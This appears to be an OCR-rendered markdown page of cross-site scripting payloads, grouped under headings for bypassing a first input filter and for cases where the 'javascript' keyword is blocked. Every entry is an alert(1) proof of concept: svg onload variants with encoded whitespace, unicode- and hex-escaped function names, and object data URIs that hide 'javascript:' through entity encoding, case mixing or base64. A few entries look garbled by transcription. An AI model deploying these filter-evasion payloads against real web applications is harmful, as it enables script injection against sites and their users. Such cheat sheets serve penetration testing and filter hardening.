# **Payloads** #

#### **Bypassing First Filter** ####

```javascript
\<svg//////onload=alert(1)>
```

```javascript
\<svg id=x;onload=alert(1)>
```

```javascript
\<svg id=\`x\`onload=alert(1)>
```

```javascript
\<svg%09onload=alert(1)>
```

```javascript
\<svg onload%09=alert(1)>
```

```javascript
\<svg%09onload%20=alert(1)>
```

```javascript
\<svg onload%09%20%28%2C%3B=alert(1)>
```

```javascript
\<svg onload+0B=alert(1)>
```

```javascript
\<script>\u0061lert(1)\</script>
```

```javascript
\<script>\u0061\u006c\u0065\u0072\u0074(1)\</script>
```

```javascript
\<img src=x onerror="\u0061lert"/>
```

```javascript
\<img src=x onerror="eval('\141lert(1)')"/>
```

```javascript
\<img src=x onerror="eval('\x61lert(1)')"/>
```

#### **Javascript Keyword is blocked** ####

```javascript
\<object data="JaVaScRiPt:alert(1)">
```

```javascript
\<object data="javascript\&colon;alert(1)">
```

```javascript
\<object data="java &#x20;&#x20;script:alert(1)">
```

```javascript
\<object data="javascript\&#x003A;alert(1)">
```

```javascript
\<object data="javascript\&#58;alert(1)">
```

```javascript
\<object data="\&#x6A;avascript;alert(1)">
```

```javascript
\<object data="\&#x6A;\&#x61;\&#x76;\&#x61;\&#x73;\&#x63;\&#x72;\&#x69;\&#x70;74;\&#x3A;alert(1)">
```

```javascript
\<object data="data:text/html,\<script>alert(1)\</script>">
```

```javascript
\<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```
